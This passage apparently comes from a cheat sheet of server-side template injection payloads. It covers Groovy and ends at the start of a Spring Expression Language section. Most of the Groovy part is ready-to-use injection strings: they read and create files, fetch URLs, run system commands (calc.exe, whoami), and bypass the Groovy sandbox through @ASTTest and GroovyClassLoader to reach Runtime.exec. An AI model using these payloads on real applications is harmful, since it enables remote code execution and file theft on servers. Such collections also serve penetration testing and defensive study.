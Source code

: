 ## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to [groovy-lang.org/syntax](https://groovy-lang.org/syntax.html) , but `${9*9}` is the basic injection.

### Groovy - Read File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP Request

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or

```groovy
${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

---

## Spring Expression Language

[Official website](https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html)

> The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime. The language syntax is similar to Unified EL but offers additional features, most notably method invocation and basic string templating functionality.
